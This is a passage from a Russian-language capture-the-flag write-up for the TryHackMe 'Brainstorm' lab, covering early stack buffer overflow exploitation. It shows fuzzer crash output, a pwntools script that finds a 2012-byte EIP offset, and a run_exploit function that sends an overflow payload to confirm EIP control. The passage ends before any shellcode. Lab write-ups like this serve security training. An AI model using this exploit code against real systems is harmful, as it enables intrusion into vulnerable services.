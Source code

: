 ```bash
[*] Sending 1900 bytes
[*] Sending 2000 bytes
[*] Sending 2100 bytes
[+] Server stopped responding at [2100] bytes
[*] Switching to interactive mode
$  
```

Сразу смотрю стек и регистры  
<img width="1918" height="975" alt="image" src="https://github.com/user-attachments/assets/546e0656-ee6e-4a88-8a1b-4ee0ba17030b" />  

Добавляю в скрипт функцию `get_offset()` перед вызовом `__main__`  
```python
def get_offset():
    eip_value = 0x75616164
    offset = cyclic_find(p32(eip_value))
    log.success(f"Offset: [{offset}] bytes")

# ==================== MAIN =====================
if __name__ == '__main__':
    #run_fuzzer()
    get_offset()
```

И снова запускаю скрипт
```bash
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Win Medium - Brainstorm/exploits]
└─$ python3 x.py
[+] Offset [2012] bytes
```

Теперь можно перейти к написанию кода эксплуатации.  
Сперва нужно убедиться, что я контролирую `EIP` и `stack`  
Добавляю в скрипт функцию `run_exploit()`  
```python
def run_exploit():
    offset = 2012
    junk   = b'A' * offset
    EIP    = b'B' * 4
    stack  = b'C' * 12

    payload = b''.join([
        junk,
        EIP,
        stack,
    ])

    try:
        io = start()
        print(io.recvuntil(b'Please enter your username (max 20 characters): ').decode('utf-8'))
        io.sendline(USERNAME)
        print(USERNAME)
        print(io.recvuntil(b'Write a message: ').decode('utf-8'))
        io.sendline(payload)
        try:
            response = io.recv(timeout=RESPONSE_TIMEOUT)
            if response:
                log.warning(f"Server responded unexpectedly: {response[:100]}...")
            else:
                log.success("Server stopped responding - likely crashed!")
        except EOFError:
            log.success("Connection closed by server - likely crashed!")

    except Exception as e:
        log.error(f"Error during exploitation: {str(e)}")
```